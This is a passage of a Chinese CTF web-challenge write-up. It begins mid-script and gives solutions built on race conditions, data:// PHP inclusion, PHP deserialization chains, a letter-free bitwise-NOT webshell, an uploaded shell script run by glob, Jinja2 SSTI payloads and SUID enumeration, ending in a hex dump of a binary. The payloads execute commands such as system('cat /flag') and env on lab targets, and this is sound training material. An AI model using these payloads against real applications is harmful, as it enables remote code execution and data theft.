HRAQVXtAQGTBUlWpZwfuFjKwvjNfzkCmcVeCPUCRSDXKSKQjNOkmeYabmjtNVYclVEredbjBiqXWeMCXaXPltDgneMPJaGIYHyfbWqNLwJCqPsdJxCDvaIuYXDHVLfwPwQuvUGcXvJZmcyACILNBDHnGKXFnUpExHTHrcgyIKCDSzeUsyOYfxnKyAmsUPgWgfdcJuLGAPnLvLnFuKXNUThohGpagqOIucLUtSHYBJvlPzLnJXtBIryPDyWtZuvOcoLBUkWapklHXLNQDonMyunmuoAuqkvdCvWXvIrdXZtHrgwsDuZiytotfKBAMwNGiVDZGlMzPKGpIeFzCLuXYsVXQZfYXoPuBNJyEFNvhlnzDbAieaNycIwKCtysQxbjejrEJVzuaNWpKqaduNtdmAjFpQFKFkoukCGsoscynKmpOTRhBlKlcurfCSzckDmrABkvUnTJBGBjKQeVEZRpfcdNbqEJAGfeaMtKiqfKcmhjngjEuVQaDmgYOdRxGOBGIRBgNCwsUAqNhVxzPkVSkNRLuVbAEApwnXjeipSbNDROtZSuPItgRUIJGcDiSxJwgcqximjKfskPXuHbhowALsYRPrjrteNPhiUKQpFgYlRBHJMuOQPtIYcIPIFHTpwMVpRwRvjpDKzlKmuXZVHAvswCIGoHxMahgaueHzkQhrGXdiXZswbkbpsOFOskXcgBUXBTjXacDJzbqFYhMpQXykStZCMJpmzkBfygwmQERoDIyMCGiJiCmOyTmrepOZIxfPlONsapLxOACdcfxLxsMLUsMziTpqcxAOpFMvghzFYRSwMQmGLDiaQsTZAZurHBSuaFHmXQohjUSqicRyHfrtIKygKBsCdXWTDgzcvHYGnbghSlMeHiMHQZtFoyPoVxyPNgnUxgiXZpXWokTBfnuXLDxqkyBnXWlIwFODufTCoevNmvHKZFAhPNOfuJxnqyfigeihgefMyPRGtjTwPxgkFGleTQOczfIhKVOSAwkfYLzesAxSHaqsWUfdRIxVmgsdedlnRFKHbRIMUHcRELhMLcpGiAJmqmQKECsfpXUvtBcrzRQcORBDNPVlQjdsHZXaHNOhQbdigsdszLIHPnXzqbKhBchruNLjBlaydvIHTVmSlyHtIyCyFocdRlJTozqSQNAvQySRZpNqUPzpQuKWLxUPbhYjvGlEpLWnPenWboqEfEMsAIxdbJQMKfNXakvwtRsTyHMSPOLIGxhLCiEnBnkJLFiDrkLkqBeRqxatdzFjaOVwhEKLAWxHViZadRjfQfoPOnuXPIFLPBnAleremNPcnTwAjgZADfYxlDrtcoQFGubCdTYPFSqXPjOUeAGFuwRvpeQWowxajsTnMcOfPtYBKqJwUQTislZbOsMyBpFCQaQYjSKyxGcSyceUGvtOhxImvTmiMfsmejhFAVALTvdRGAInBuxibmSYloasOJIntRlxjWeQGVklDfBGUkrAfvtNXRVBOvltzigxMUmEIhIjIgwYDWhCUAgQImixmgXDYQHUPRdfNGerNueMivayPSNRheVPTVhPaHDvFPcedCpRGOcAXLBrPnKlyHjDueOZdpfZKabnbdvYilMSALQHjVfkDjXVgsvIyNZEcfobkydwZPfKqTCXgPkPdgVaBmJKIYNmGxStldrBjZAykFDMfoiFIRLGigwdRvilQdycSAuXShvACVReSOifjuWlOSbKhXjfPiYibMxwIOcYtqJDBsbzqsMpsUbnVOVNCBHCVwbaghdaZwKwOcWsFdTxICJWXrEgJKWVrtPLUnYehdKUIbHUxWvzflPvLJMIJdoPNcjlPyZuYbrNgznMPDQIskYGeKHEIxbsAzFGPSbHEYIfnakwrHtifynYQBGcIMtEfSTmzltyveQBEdyrPHurWSEPiEGaGFHNtYqFqZSvMOkfEkFGNUNehiTqrLJMZPmjBSlnkLaQtjTslRqwOSmxZdQzpgBzTFVxLtBnUspHSqUyBLXbRMViuwZnVFyEFEyzlISCdtwpnKanKdroLgotHdEhGyucMuGyqStCiZbxKIlMLvuhLTUNbmXYhZbfTrHGlYbMjsXAiQovPHQrfvEjkiZVgyhEVPRkTzyAucZgafPFGOBXcSkOXKdlZrZpXQOJCKLtzBysNKVkHEgyrQPqnUKXILyujGsFqXzfLpDjewEmzGrGhRCSumVlXrwoBXRljkWHGDUsNUAdZKUDOwejOZifSOHJHiKCYNGtbdQEPaFKPnaYQzfxzGefKtAbRuJoZmHblZmwKrODQVMUOqmIZOuxzraxWdtpcRHFZCJlTdMcQLFVuTlOQNCkEPkRTFPLVNAqImzvpsWcNMPIvulFEhoWSDXlwpeBZxKIZApQOArGWITaVteYWBoEkHlPjHkQwxDnRfDyRXqjbzVgYcTDsMafXLustotnGcrbNyDimSxCiatNVnKgnTuyUYJtUdSAgJwLeFSPuAIfvbaxYNwRgDoGtaQcFxgDJMFgpCIuoEdwDChkoBVfDkaihdmPQZTwGcyNiSHpXLZfrszPoroaFSFoyZVysuPgwQpEQWQYqwLmfSCktrnuAUktVGnDvspNePKtABerKUsrjhJZnBtEsiRwoGDYVoSxzhDbLWysDJUWECVbNDtZEPLawlSblaIPtIfLJxpaJQnXQgVKIuWDZLmAlWfzxGmxEjtpLBmJCsvCyMemqylTnRXgqCzhfROrdtdPcrHtntoGyKnqjigbEfkdykWKlwQruRiDIVequOEJbHXdQCMIQAMTDXLQTgcLqmQlStExIAKMlNSXuhnUgYwTlVrqpadpTAzvLsTcopFOraXmxqCGqDiZhyUcWdraLNaxYlDTdjVkjHaWLVNDKvrDotXPOdLwPKGHiTpWzghIyopFBMJPEjaQlNJhZHctpMgvUawLrLnyuTxCejCavTOgQBwDFOdIZeawkGNWmwUzFauLxsqimLVSnEWPZYRAKHwHIWjCrPjtXTCeaCkVlrjRzhEvlwmnmrjlPqioroJpZDvJXtpOtHmsQheWgUnuDqjLUjWSzgdmuHBiNGsexkrxWqjIWCesrmJFgsLALwDKaONSCnKGTYvSHqsCdEnJmKbItitgTOlSigmioFqtEyaUKpqtYhWUBrtsLcfmfqojPScvTayNOmiJvAfczBUCUqdZexCqfBjsufdVdlKQWSVLfCnBydqAmVdhAnlSfrOTAIrgVXueYGjoJIByCoEJRtomAUqrTIcvnIdMoMjXkTEUjEwtEWorwefkTGalPEPnCJRjZJPHOWMPswlApIuNblsAXKXEnoxsaIwvhyOkHyMiYiFoCjXfgwlpiETVoUDfVqFpXclvKnwinPNHDRhnQwJZjATsqslVLeSMwSCIJTnatMuxMcAWrJdnwjWxYKHmJHOyEceCfwsmalGwVtJNXLpikQdhMYDYKFCxGrtSNaceCVuiEvQyBFycgCSwvAVjulXqbreazYTZPRhZdYqsvNKQfRpqITJXYZEizdNUCSRlNUKSGIrgLzBRdWfSzEObyJyCDlspgNPukmbIDwloSGWPXUbnoZPaZISqjkGlRihGcOtHmkwFBrhGIxutiLOZLfIvLpkQpcKcJvcYSoMXqiNYgrGvfTHFmKCwgdIGNmWPcwyfJhIphUJYjAMgFPzPMoWjElspZCbXDkQzihAwSlxNztzMbaUxEXhAizBxopqZMYazFBXQtBXSncriVJTgLbZrNfGFjctMTEmObPLpENwnovQHnBnPqYhFkqVkdqRoNoveCdoTGmgzlRJatIpByQGpjelGEmTGHELfxsIruzldvLMihnPzhLrfKMgCVOSOvDUrYhiuxnlVNgtilbQwoWbyMciXOQsfegmznLtaMzunRDscsnQCvZcwjtLWkuvidyjSGOSWGIRGzGyWcqjyJiWejPzIdfzLGaCSvNqhwEqAvCxcGVspJnyMgiXHOfetWgMeWGmoXHsXIucVwEvHaDWbidGZaTMzYTrKQPwbDbcRnUDymaMhuTYPlWqdNsTngReMqSvwDeBIjkIfDTnJwNvaUMdCrSiJYxbYAHgyTIvThjptWEDlhEBuIvrgkiRpsVpTruBKuJAZRHFBTBAxqKjyZVtscfYoJAwrvmpWCYxWAcvOjOGWuvphnjoTcpcyopaHPSYNSFpLhdsVqusxufxbwZjzwhGHjsCkvWUDHioXebCGemDKSutHqiOCImIhsvMcgfSvMcuvAdEhuRbDHqeVFzIMwUTjZrBNzfwcenAucPrjhOKOFXNKnwRBdiucOjdraiEGfDChPLiYkEnifjEoIDjRSDuNBDMRDxtCDLscfXtRCNZxWfYeKCpzYBiSrMoIpUbRklzEVwQVehVpkFyVrVtujiSPOLEFOVhCrDWChnroYGOLFwItVbxfZlzjkgOvdAEdTjLebjyKHSEYvMduWainHlZHbtIADMtmXOjyaVsasBDemSCOuLaFeAMatFmqPYgoPBuwgfhxpMngLGthLNaDRySnrXiuXGdsXebrmUvdueGmUSmhIuXJOVGpOhqwtzIcuirDThNsyLdExgVmHqUptlwLJVQwSlZOuVTHrbfRhuibwpkJwJkDPUGwGLyZorkRskRTqaeHlClCjQyOPZTmNzpDHxndJVsxAnpLuqHNktLHrGaPKTeDlhKWtxUltveFDgBERTnKHaSHdaZDKPxlKWmvGnQCLZJgSaVRplUSjaXjseKhXlMxdvTYJNsOgislKzLnepaxWECaTCflPMuJzOCMdBgCribrHLGlpBqTkTEcVHgoGQWUjVTUzjyPUhWbiBRxckxGThXqexUSgFmtfdYtKhTWtfjxoPiMYVBqERcWxoRkQSkULJiPhCSfXoUykfGSimlmHBHzWbsagTJdgYoKFuAjXCqKvnukUclWZVANxeRvCXUqojAgEaByFkNKxLgKObKgsHRijRzxQVaUprskCmATLwvgiDyIndpeaSiPljfSAhRtLwEtJBODxjtyMzIomksXUGbskQjSPdgwxJWaejgnfxwJrdHgMCrSrwBTuGfcojXVLWNClYvzJTyDXrLzkSqxbcLHdvcFMnwGMwLERmcmDUQuIvUdjIcJKXULTyPchlWLxVpuihKemfgFJfGApvzAnjShbxKUqAtBDPtpIgEKdyidUqNJocWbnPEbMxCZhRUjTrVteNiFDVmNaMBNetaWEtafXncKfEXYptvijKGuiZXgmoFBTHBriRIcDBdZJIaymIuZkNuZKWmpTLhScjTiJrKJDXvZeGVNJTDINafpQwiPkqbIvgqCTwkCWhZrgQIHuBkBgwOnOTCEHRxpaGbMJrsgLEOInhVKIwhIhgVjtqArCYijwoMhnsOqziDfnIZEfDaUOhSVyqhWKZIJsJfNWIStPqbyFmZPlnLYwbSoEkxwRSTfznbOGYrSjCSRlPEytycnVXAesjgQsMjuetJvdGSjxoNwufCPvxMUqDPKeQTsXQcIRQGoqCUDbZlHbYkFqJhruVmRiWGpDiPSKXOsBHvPvJNgaSOSHrNUiOwvBUgzWrTcBWAKrkBMobfONCzmXbRHganRgFJZsgvwTmkLiXfkyqcYjSWHKoSoyWOgoFGhXPturGEUCuIVBczaLnxzUkmwFbKAkcXuzaiByLNEaugBXnkXtuAqDKuMtMxGCKQHPIWtwkXoEXaCzqVnlmTueyDsKmQuqOBPekMIfdiSbHDVFbhbaUVPIFPchCuZxFBRaKceldvAWvgIkroVrHpvIEiHqBIYxGyueUVTWPoDZRnrAStGFHwYczxVuPKXEUHFpHDjHcDZTmWhBmfTJvRSLUYhieMwGCDevGSfMBPzEOGiwsGbgmUfXYmnraIfPRxPuvkOrDVrAqfTOrvcXhUSHYJPbhqOUAFepOuGwEuoKcOtrpbZKOFCziyUpAXzSWXDidtDCFnlIqaCfzWNogViWoPhSnZYESkYRoiaoaETPhnswIXoGhbRpmWkFkOvPmoWexFEGntpePDBePblefuMvqBAtehBAzYdOstJLrymkahWgKhftLgmHZpBNeGmKcZafkLkRMIAWkqWYdxPYQkQewixKynMQMrqCiMwSZjELaWecgsqphcanAFEZycECYiSBoajuMlZdlYQtPejrvtYRsugRbVlFaWDbGAsVOAyERmNDPswIlDoyhZuWqonEVztwxyrmcyVmvCYkjZjwmzhTfnDSLIzgbxgAXLGptfGhVnXpktjfCzbLNtojTmpUekDrsIPYPXPsQroMOwMLvTnUnqnmzqASbduRJeGNAmgKvprEHOyGTFJWbafwEdxphKzOviNwfPrBuGwCYZhOVwirGHQDRtsfPCVgEmpsdAJEXBzfnRYiaqJRyfOFGadaJSXhfhsKfiCbakLbfENXFXdhpyADSNbDmQWUpbPMtCkxsRGJoaKcLgeKmzqSoHaLoSuAWZqvIMfCiEfyCmGPadaHumUlFWrntbTNqukENBzEFObGrNTXNbKBhXCupKDIJNykATKfBQvzSYgQELWUfepXnBFncFqCHCTxCLMfPUpaUkRtoJMbpadzmyHfQEHpGatSqZohDJBxMajbXdRFsHTpXzTDgYRnpfzVPEFsknYZaXdNezYIZTeczgOZTlYhylchNEHivrFhihcxYNIcDGixscIDYkbEYuloZqdmFLNaFDUGcgMQvlYwJSdsPgvuseuOAYiaFOnkCrJgWnRCJuHGZEyLJEuEDedwphNLMrpdvgRVENLRpcMaqwgOwrVOjcjgSahSTAOxiYlQpsbApqtqYQrOpczjaTnvxhUclzYJuqpLalVRmLZlieUNefYNLwJNJZhoUxtOxLDTQXJlswXMprgjwOPDPGiVNtQxzshImKZNvZtXIRiMsIhqjyIBurirPcwVaTbKqiTFtzbzHkjPIBYeKTSNrmNHnZgdrxAkJmOyKZWPIsQvxFSriYRSkABozQclJizGaKitcrfWowxpNKmzCsqwTbocXjKfujNSRKWUyUWqrhXtgLSXgItLZtorjiKPzinOxdvPGvYZyPLfvlAMIqUgSCmhNExifbfwPlriPnYVljZvzWEqXdiTYDzjhYgoiYJZfpqhrkLdcxkMIXDFBnFEVXlvHtaloYiNTPYRvDgwfWmwKRspCelMYAghSUjskGmnjDJWIMYMYPEaoqiYEZnCyzEIprFumcLiVPKjObkUpdirdoDzBLGvikaEmXjTMpEdxmsAqdfwOrqrSwxBWXdfbuAtEdPYZRqnTaopFjvplSHOntxIFjnjvnmlUtofmyRegkaelImWYDHJpbfyDEHbGFeHRZngNyKOsarinDhJZTrdNxltQOnwoKrkHsTKofRymjVSNdeRFvrlRVclbFUJlNbiENwOeAMeTCuBoJFZMrgtegqcRKQdaFpwhcUFOZsfMTkviehQFCAvZborgWjSYhWQzHAsKmEgwfWmJYvHTPuSKOmOyFjgkvHIuPIbralqLBDQiDutlcUxmcXdSYgemREgfLVQNcNerMnuCkqnrYzisxzOxnBfCJQfGTvxbvnPHRzImrOGNvjCYWnGQrBotaUgZcHjfHBqsUrgYQspgqTjsxUvrmdpLebKgSivumvjIkoqwCeBpJwbHvOpkWQwVREFOyFaeDzPelPykaxDumJRzGMQlvqDhFySqDzTRxpWLESyWDrcBIBHxESudenUdquFVwTjITmaqngtgRjhSLdtXcNPFVkgWyHEofdAvLsFlmKlHZQxZWCXqtyndzRHfwZxjtGcLjcRNxazLDqtMqRabYxyCUKxNcaFkAJMiJaqGLQthPIYvQeusnmGJuVTEtkPzKoTYDERTHrIwhSxDubOapIcYQLZrpJiJhiKrLVjQKubkrwDJSwAtmnrCXUFYZWLGlyZBYigmUtpTzyLFRYEWlOjSEDqmQktdvUFVSuHZwNRXWmfUjMOwpHmSwXnXzUyUkEYMWVUePdEsvPEUeWnkXJcfaOubzFhLQbvMSolejybMvLuJYbkxgZQLAMyRfOAPjsCobsovaWawNcmRHfmCNlkRWbZEhGXQMrlWAreWJtlISGlxdJHNmzQhuFuYLIdkdYRaYJWpFbZHbNvcmGukGSyKoLwVANVJrkXJGoVJWnIrIniacQVsvUEsUioPnoYhyCUsegXOsRcvcHxZfpmRkJUxyjYaZvFrnmIFAmzindESEskJVJmCnGhehMhLCoAMbCENszFLXchIwUizywEFxEJsizGlCrEWmhLWmpbFeOrbEhEgFkpelexDQkHXHlYjOANomnxlPZuByRZLDpdXLAZDZocOupMonVtIoBlaPUvMDpZvmKhNyPXZLEMWgjEBUPQBhZjvBNCSkuqMreXSCbudhGAmYiTEBlUDoRsZgTPVnlFaYIrvOPvbFkiCxbCDhlEmvpsjSgdEXtYgOxdVTPvXeftPzdsXUfhfQtPIEIcQnGYernWaFJyfDcDxNoHmfWzQGrGqnrhCPVmJavXBLChpGialPrUSTDHcMlJedpdFDKDZIHJPRMCmBaXkYFqSIFYpqJrlEBpzDGROVdkLWSZdzuRHwQJoPkVIvRUDpWXqVbzWLUPNSHEKwIvmojanGqGAUpODlgnWPOUjHpSGnKrOkDPAKAXtLGifiudqSKegAUCNbvBpaeJFHqyvAjdiyfTRpqCNlDVEISCZUfvnIFtxReYGwCXIhwcDbevHcDGQOLpzPHgcuojXiZdSoRYgoVmduqghYIYLmQWKvKCaZHtSNOMnHeQxskuQRebzDvRigACxBmCRagYpmtpb";

    var count = 500;
    var i = 0;

    var interval = setInterval(function() {
        if (i >= count) {
            clearInterval(interval);
            return;
        }
        input.value = text;
        button.click();
        i++;
    }, 10);
})();
```

将该脚本在控制台运行后可以得到 flag.


### **15 第十五章 归真关·竞时净魔**

根据提示，很明显本题的思路是利用条件竞争删除文件时间差绕过.

上传 php 并在 BurpSuite 中抓包，利用 Intruder 大量发包.


`~~F5` 按烂了，不小心刷走了十来次…~~


// 其实这里应该利用 Burp 爆破访问…

### **16 第十六章 昆仑星途**

利用 data:// 包装器执行php.

`?file=data://text/plain,<?php system('cat /flag-*.txt'); ?>.php`


### **17 第十七章 星骸迷阵·神念重构**

我们注意到这是一个反序列化漏洞，因此可以构造序列化对象执行 php 代码.

```php
<?php
class A {
    public $a;
}

$serialized = new A();
$serialized->a = "system('cat /flag');";

echo serialize($serialized);
?>
```

`?a=O:1:"A":1:{s:1:"a";s:20:"system('cat /flag');";}`


### **18 第十八章 万卷诡阁·功法连环**

仍然反序列化.

编写脚本并进行 url 编码.

```php
<?php
class PersonA {
    private $name;
}

class PersonB {
    public $name;
}

$b = new PersonB();
$b->name = "system('cat /flag');";

$a = new PersonA();
$reflection = new ReflectionClass($a);
$property = $reflection->getProperty('name');
$property->setAccessible(true);
$property->setValue($a, $b);

$serialized = serialize($a);

echo $serialized . "\n";
echo urlencode($serialized);
?>
```

`?person=O:7:"PersonA":1:{s:13:"PersonAname";O:7:"PersonB":1:{s:4:"name";s:20:"system('cat /flag');";}}`

`?person=O%3A7%3A%22PersonA%22%3A1%3A%7Bs%3A13%3A%22%00PersonA%00name%22%3BO%3A7%3A%22PersonB%22%3A1%3A%7Bs%3A4%3A%22name%22%3Bs%3A20%3A%22system%28%27cat+%2Fflag%27%29%3B%22%3B%7D%7D`


### **19 第十九章 星穹真相·补天归源**

反序列化.

```php
<?php
class Person
{
    public $name;
    public $id;
    public $age;
}

class PersonA extends Person
{
}

class PersonC extends Person
{
}

$person2 = new Person();
$person2->name = null;
$person2->id = null;
$person2->age = null;
$person1 = new Person();
$person1->name = "whatever";
$person1->id = $person2;
$person1->age = null;
$personC = new PersonC();
$personC->name = "system";
$personC->id = $person1;
$personC->age = "a";
$personA = new PersonA();
$personA->name = $personC;
$personA->id = "__Check";
$personA->age = "cat /flag";

$serialized = serialize($personA);
echo $serialized;
?>
```

`?person=O:7:"PersonA":3:{s:4:"name";O:7:"PersonC":3:{s:4:"name";s:6:"system";s:2:"id";O:6:"Person":3:{s:4:"name";s:8:"whatever";s:2:"id";O:6:"Person":3:{s:4:"name";N;s:2:"id";N;s:3:"age";N;}s:3:"age";N;}s:3:"age";s:1:"a";}s:2:"id";s:7:"__Check";s:3:"age";s:9:"cat /flag";}` 

得到 flag.


### **19 第十九章_revenge**

这题我们 `cat /flag` 是空的.

flag 还是在经典的环境变量.

```php
<?php
class Person {
    public $name;
    public $id;
    public $age;
}

class PersonA extends Person {
}

class PersonB extends Person {
}

class PersonC extends Person {
}

$a = new PersonA();
$a->id = "check";
$a->name = null;
$a->age = null;
$b = new PersonB();
$b->id = $a;
$b->name = "env";
$b->age = null;
$c = new PersonC();
$c->name = "shell_exec";
$c->id = $b;
$c->age = null;

echo serialize($c);
?>
```

`?person=O:7:"PersonC":3:{s:4:"name";s:10:"shell_exec";s:2:"id";O:7:"PersonB":3:{s:4:"name";s:3:"env";s:2:"id";O:7:"PersonA":3:{s:4:"name";N;s:2:"id";s:5:"check";s:3:"age";N;}s:3:"age";N;}s:3:"age";N;}`


## Week 4

### **这是...Webshell？**

审计代码，我们发现参数不可以有字母或数字，因此构造一个不含字母和数字的 payload 即可.

可以将命令位取反以避免字母或数字.

```bash
system("env");
```

```bash
$_ = ~"%8C%86%8C%8B%9A%92"; $__ = ~"%9A%91%89"; $_($__);
```


// 异或绕过应该也是一种思路，甚至可以通过颜文字或者汉字达到目的.

### **这是...Webshell?_revenge**

审计代码，我们发现参数仍然不可以有字母或数字或 `_` 或 `$` 且不能超过30个字符，“这下彻底没得做了...吧？”

我们在 Kali 上利用 Apache 搭建网站. 从而模拟上传文件，以获得请求标准格式和特有标记.

```html
<!DOCTYPE html>
<html lang="zh">
<head>  
    <meta charset="UTF-8">  
    <title>upload</title>  
</head>
<body>
    <form action="upload.php" method="post" enctype="multipart/form-data">
        <label for="file">choose file:</label>
        <input type="file" name="file" id="file" required>
        <input type="submit" value="submit">
    </form>
</body>
</html>
```

我们注意到 linux 中文件名几乎都是小写，但我们上传的文件中后几位是随机的，可能包含大写，所以我们匹配最后一位大写就有几率匹配到了.

抓包后修改目标为我们的靶机，并添加 payload.

这里贴上我们的抓包结果.

```
POST /index.php?shell=?><?=`.+/???/????????[@-[]`;?> HTTP/1.1
Host: 127.0.0.1
Content-Length: 199
Cache-Control: max-age=0
Origin: http://127.0.0.1:55013
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary7YheBTd5DdLj9Zrj
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/140.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Connection: keep-alive

------WebKitFormBoundary7YheBTd5DdLj9Zrj
Content-Disposition: form-data; name="file"; filename="test.txt"
Content-Type: text/plain

#! /bin/bash
env
------WebKitFormBoundary7YheBTd5DdLj9Zrj--

```


### **20 第二十章 幽冥血海·幻语心魔**

我们构造了若干可行的 payload，我个人更喜欢 `config` 和 `lipsum` .

```python
{{ config.__class__.__init__.__globals__['os'].popen('env').read() }}
```

```python
{{ lipsum.__globals__['os'].popen('env').read() }}
```

```python
{{ request.application.__globals__["__builtins__"]["__import__"]("os").popen("env").read() }}
```

```python

```

```python
{{ c.__init__.__globals__['__builtins__'].eval("__import__('os').popen('env').read()") }}
```


### **21 第二十一章 往生漩涡·言灵死局**

审计代码，发现绕过黑名单即可.

```python
blacklist = ["__", "global", "{{", "}}"]
```

绕过 `__` 和 `global` 的方法很多，这里我们用 `lipsum` 搭桥.

`?username=&password=1&a=globals&b=env`


### **22 第二十二章 血海核心·千年手段**

注意到该题没有回显，于是我们可以 `{{ config.class.init.globals['os'].popen('mkdir ./static').read() }}` 在 /app 根目录下创建 /static 静态目录，之后即可将输出写入 /static.

我们发现 `env` 不包含 flag.

~~// 就在不久前，我嘴贱问了一下为什么好几道题 env 里的 flag 是不是忘删了…~~

我们进行一些诸如读 /root 的行为都没有返回，于是我们 `id` 一下便可以发现我们并不是 root 权限.

接下来需要提权.

我们 `find / -perm -u=s -type f 2>/dev/null` 查找具有 suid 权限的文件.

得到了如下返回

```
/usr/bin/rev
/usr/bin/mount
/usr/bin/passwd
/usr/bin/su
/usr/bin/chsh
/usr/bin/chfn
/usr/bin/gpasswd
/usr/bin/umount
/usr/bin/newgrp
/usr/bin/sudo
```

我们注意到了这个奇怪的，本不该出现的 `rev` .

我们尝试 `ls -la /usr/bin/rev` 得到了返回

```
-rwsr-xr-x 1 root root 16000 Sep  6 05:01 /usr/bin/rev
```

说明这个 `rev`有 setuid 权限.

但是我们尝试 `echo "test" | rev` 等命令时却没有返回.

!!! 我们发现这个 `rev` 不是原生的.

我们 `strings /usr/bin/rev | head -n 50` 得到了如下返回

```
/lib64/ld-linux-x86-64.so.2 execvp __libc_start_main __cxa_finalize strcmp libc.so.6 GLIBC_2.2.5 GLIBC_2.34 _ITM_deregisterTMCloneTable __gmon_start__ _ITM_registerTMCloneTable PTE1 u+UH --HDdss ;*3$" GCC: (Debian 14.2.0-19) 14.2.0 Scrt1.o __abi_tag crtstuff.c deregister_tm_clones __do_global_dtors_aux completed.0 __do_global_dtors_aux_fini_array_entry frame_dummy __frame_dummy_init_array_entry rev.c __FRAME_END__ _DYNAMIC __GNU_EH_FRAME_HDR _GLOBAL_OFFSET_TABLE_ __libc_start_main@GLIBC_2.34 _ITM_deregisterTMCloneTable _edata _fini __data_start strcmp@GLIBC_2.2.5 __gmon_start__ __dso_handle _IO_stdin_used _end __bss_start main execvp@GLIBC_2.2.5 __TMC_END__ _ITM_registerTMCloneTable __cxa_finalize@GLIBC_2.2.5 _init .symtab .strtab .shstrtab
```

我们发现出题人留下的签名 `--HDdss` .

我们为了弄清这个改过的 `rev` 是如何工作的，可以 dump 出 `rev` 二进制.

我们 `xxd -p /usr/bin/rev > /app/static/rev.hex` .

再 `cat /app/static/rev.hex` 得到了十六进制的 `rev` .

```
7f454c4602010100000000000000000003003e0001000000601000000000 00004000000000000000c03600000000000000000000400038000e004000 1f001e000600000004000000400000000000000040000000000000004000 000000000000100300000000000010030000000000000800000000000000 030000000400000094030000000000009403000000000000940300000000 00001c000000000000001c00000000000000010000000000000001000000 040000000000000000000000000000000000000000000000000000006006 000000000000600600000000000000100000000000000100000005000000 001000000000000000100000000000000010000000000000ed0100000000 0000ed010000000000000010000000000000010000000400000000200000 000000000020000000000000002000000000000004010000000000000401 00000000000000100000000000000100000006000000d02d000000000000 d03d000000000000d03d0000000000005002000000000000580200000000 000000100000000000000200000006000000e02d000000000000e03d0000 00000000e03d000000000000e001000000000000e0010000000000000800 000000000000040000000400000050030000000000005003000000000000 500300000000000020000000000000002000000000000000080000000000 000004000000040000007003000000000000700300000000000070030000 000000002400000000000000240000000000000004000000000000000400 000004000000e420000000000000e420000000000000e420000000000000 20000000000000002000000000000000040000000000000053e574640400 000050030000000000005003000000000000500300000000000020000000 000000002000000000000000080000000000000050e57464040000000c20 0000000000000c200000000000000c200000000000002c00000000000000 2c00000000000000040000000000000051e5746406000000000000000000 000000000000000000000000000000000000000000000000000000000000 00000000100000000000000052e5746404000000d02d000000000000d03d 000000000000d03d00000000000030020000000000003002000000000000 0100000000000000040000001000000005000000474e5500028000c00400 00000100000000000000040000001400000003000000474e5500360a7a29 93f97bb77625560023544ca66c7281952f6c696236342f6c642d6c696e75 782d7838362d36342e736f2e320002000000070000000100000006000000 00008100000000000700000000000000d165ce6d00000000000000000000 000000000000000000000000000000000000080000001200000000000000 000000000000000000000000510000002000000000000000000000000000 000000000000290000001200000000000000000000000000000000000000 6d0000002000000000000000000000000000000000000000010000001200 0000000000000000000000000000000000007c0000002000000000000000 0000000000000000000000001a0000002200000000000000000000000000 00000000000000657865637670005f5f6c6962635f73746172745f6d6169 6e005f5f6378615f66696e616c697a6500737472636d70006c6962632e73 6f2e3600474c4942435f322e322e3500474c4942435f322e3334005f4954 4d5f64657265676973746572544d436c6f6e655461626c65005f5f676d6f 6e5f73746172745f5f005f49544d5f7265676973746572544d436c6f6e65 5461626c6500000002000100030001000300010003000000010002003000 00001000000000000000751a6909000003003a00000010000000b4919606 000002004600000000000000d03d00000000000008000000000000004011 000000000000d83d00000000000008000000000000000011000000000000 184000000000000008000000000000001840000000000000c03f00000000 000006000000010000000000000000000000c83f00000000000006000000 020000000000000000000000d03f00000000000006000000040000000000 000000000000d83f00000000000006000000060000000000000000000000 e03f00000000000006000000070000000000000000000000004000000000 000007000000030000000000000000000000084000000000000007000000 050000000000000000000000000000000000000000000000000000000000 000000000000000000000000000000000000000000000000000000000000 000000000000000000000000000000000000000000000000000000000000 000000000000000000000000000000000000000000000000000000000000 000000000000000000000000000000000000000000000000000000000000 000000000000000000000000000000000000000000000000000000000000 000000000000000000000000000000000000000000000000000000000000 000000000000000000000000000000000000000000000000000000000000 000000000000000000000000000000000000000000000000000000000000 000000000000000000000000000000000000000000000000000000000000 000000000000000000000000000000000000000000000000000000000000 000000000000000000000000000000000000000000000000000000000000 000000000000000000000000000000000000000000000000000000000000 000000000000000000000000000000000000000000000000000000000000 000000000000000000000000000000000000000000000000000000000000 000000000000000000000000000000000000000000000000000000000000 000000000000000000000000000000000000000000000000000000000000 000000000000000000000000000000000000000000000000000000000000 000000000000000000000000000000000000000000000000000000000000 000000000000000000000000000000000000000000000000000000000000 000000000000000000000000000000000000000000000000000000000000 000000000000000000000000000000000000000000000000000000000000 000000000000000000000000000000000000000000000000000000000000 000000000000000000000000000000000000000000000000000000000000 000000000000000000000000000000000000000000000000000000000000 000000000000000000000000000000000000000000000000000000000000 000000000000000000000000000000000000000000000000000000000000 000000000000000000000000000000000000000000000000000000000000 000000000000000000000000000000000000000000000000000000000000 000000000000000000000000000000000000000000000000000000000000 000000000000000000000000000000000000000000000000000000000000 000000000000000000000000000000000000000000000000000000000000 000000000000000000000000000000000000000000000000000000000000 000000000000000000000000000000000000000000000000000000000000 000000000000000000000000000000000000000000000000000000000000 000000000000000000000000000000000000000000000000000000000000 000000000000000000000000000000000000000000000000000000000000 000000000000000000000000000000000000000000000000000000000000 000000000000000000000000000000000000000000000000000000000000 000000000000000000000000000000000000000000000000000000000000 000000000000000000000000000000000000000000000000000000000000 000000000000000000000000000000000000000000000000000000000000 000000000000000000000000000000000000000000000000000000000000 000000000000000000000000000000000000000000000000000000000000 000000000000000000000000000000000000000000000000000000000000 000000000000000000000000000000000000000000000000000000000000 000000000000000000000000000000000000000000000000000000000000 000000000000000000000000000000000000000000000000000000000000 000000000000000000000000000000000000000000000000000000000000 000000000000000000000000000000000000000000000000000000000000 000000000000000000000000000000000000000000000000000000000000 000000000000000000000000000000000000000000000000000000000000 000000000000000000000000000000000000000000000000000000000000 000000000000000000000000000000000000000000000000000000000000 000000000000000000000000000000000000000000000000000000000000 000000000000000000000000000000000000000000000000000000000000 000000000000000000000000000000000000000000000000000000000000 000000000000000000000000000000000000000000000000000000000000 000000000000000000000000000000000000000000000000000000000000 000000000000000000000000000000000000000000000000000000000000 000000000000000000000000000000000000000000000000000000000000 000000000000000000000000000000000000000000000000000000000000 